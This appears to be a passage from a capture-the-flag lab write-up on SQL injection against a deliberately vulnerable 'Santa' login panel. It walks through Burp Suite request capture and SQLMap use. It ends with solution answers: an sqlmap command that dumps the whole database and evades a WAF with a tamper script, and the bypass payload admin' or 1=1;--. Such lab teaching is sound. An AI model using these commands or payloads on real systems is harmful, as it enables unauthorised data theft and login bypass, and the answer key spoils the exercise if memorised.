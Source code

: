 1. First let's startup BurpSuite located in "Applications -> Web -> BurpSuite Community Edition" on the AttackBox
2. Use Firefox to visit the application we suspect to be vulnerable
3. Enable FoxyProxy in Firefox:  
    ![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/foxyproxy.png)
4. Submit a request on the web application we suspect to be vulnerable
5. Send the request from the "Proxy" tab to the repeater by right-clicking and pressing "Send to Repeater"
6. Notice our request is now in the "Repeater" tab:  
    ![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/bpsuite_2.png)
7. Finally, save this request by right-clicking and pressing "Save item"  
    ![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-5/bpsuite_3.png)

We can then use this request in SQLMap:

```
sqlmap -r filename
```

SQLMap will automatically translate the request and exploit the database for you.

## Challenge

Visit the vulnerable application in Firefox, find Santa's secret login panel and bypass the login. Use some of the commands and tools covered throughout today's task to answer Questions #3 to #6.

Santa reads some documentation that he wrote when setting up the application, it reads:

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a **W**eb **A**pplication **F**irewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2comment`

## Resources

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)


answer: 
```bash
sqlmap -r santapanel.request --dbms=sqlite --dump-all --tamper=space2comment --level=2
```

login bypass: admin' or 1=1;--
